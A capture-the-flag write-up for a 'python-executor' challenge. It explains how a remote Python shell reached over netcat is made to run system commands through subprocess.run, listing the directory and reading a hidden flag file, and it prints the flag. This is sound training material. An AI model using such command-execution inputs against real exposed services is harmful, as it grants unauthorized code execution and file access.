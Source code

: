 # python-executor


<br/>


## Challenge Description :

I made my own Python shell that executes valid Python syntax input statements and gives you the output. Try it out.

Connect to : `nc 35.244.42.91 1024`


<br/>


## Hint

Example : `import <MODULE>; <MODULE>.run(["echo", "hello"])`


<br/>


## Flag :

`isfcr{3x3c_0r_5ubpr0c355_run?}`


<br/>


## Solution

This challenge involves remote shell code execution using Python.

1. Using the hint, we figure out that the `<MODULE>` is the `subprocess` module.
2. Connect to the server and execute the example command : `import subprocess; subprocess.run(["echo", "hello"])`
    - We get the output `hello`. This tells us that we are able to execute Linux shell commands.
3. Let's try and list all the files in the directory : `import subprocess; subprocess.run(["ls", "-la"])`
    - We get the output :
        ```
        total 44
        dr-xr-xr-x 1 root root 4096 Apr 24 06:40 .
        drwxr-xr-x 1 root root 4096 Apr 24 05:03 ..
        -r-xr-xr-x 1 root root  220 Apr 23  2023 .bash_logout
        -r-xr-xr-x 1 root root 3526 Apr 23  2023 .bashrc
        -r-xr-xr-x 1 root root   30 Apr 24 06:38 .flag.txt
        -r-xr-xr-x 1 root root  807 Apr 23  2023 .profile
        -r-xr-xr-x 1 root root  290 Apr 24 06:38 Dockerfile
        -r-xr-xr-x 1 root root  776 Apr 24 06:38 README.md
        -r-xr-xr-x 1 root root  527 Apr 24 06:38 app.py
        ```
4. Let's read the contents of `.flag.txt` to get the flag : `import subprocess; subprocess.run(["cat", ".flag.txt"])`

